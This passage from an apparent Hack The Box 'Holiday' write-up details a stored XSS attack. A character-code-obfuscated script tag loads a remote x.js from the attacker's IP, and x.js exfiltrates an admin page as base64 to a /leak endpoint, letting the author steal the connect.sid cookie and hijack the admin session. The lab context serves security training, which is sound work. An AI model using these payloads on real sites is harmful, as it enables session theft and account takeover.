 {% highlight JavaScript linenos %}
<img src="x/><script>eval(String.fromCharCode([payload]));</script>">
{% endhighlight %}

Representing JavaScript with character codes can be automated in Python, as shown below. To make things easy, we use a payload which requests a JavaScript file from a remote host which it then executes. We save this file with the name "generateEvilNote.py" for later use. Note that the IP `10.10.14.25` is the IP of the attacking computer and might thus be different depending on your VPN connection.

{% highlight Python linenos %}
payload = """document.write('<script src="http://10.10.14.25/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
print('<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">')
{% endhighlight %}

Next, we put the JavaScript below in a file named "x.js". This code requests a specific booking page, encodes the response with base64 and then sends us the base64 encoded response. The idea is to retreive a specific booking page in the context of the administrator, since the page might include interesting session specific content. Note that the IP `10.10.14.25` has to be changed to your IP over the VPN connection for the script to be successful.

{% highlight JavaScript linenos %}
req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://10.10.14.25/leak?x="+btoa(req1.responseText),false);
req2.send();
{% endhighlight %}

The next step is to start a web server by executing 
`sudo python3 -m http.server 80` in the directory where the `x.js` file is located. Thereafter, we generate the payload by executing `python3 generateEvilNote.py`, submit it as a note and wait for less than a minute. After waiting for a bit, the web server receives a request for the `x.js` file and a subsequent request which leaks the base64 encoded response. 

We can then proceed to copy the base64 encoded content from the web server output and putting it in a file named "x.b64". Then, we simply execute the command `cat x.b64 | base64 -d`, retrieve the cookie named "connect.sid" from the output of the command, place it in our browser session and navigate to `http://10.10.10.25:8000/admin`. At this point, we have hijacked the administrators session and navigating to the URL thus leads us to the page shown below. 

![export](/assets/2021-10-30-HTB-Holiday-Source-Code-Analysis/export.png)
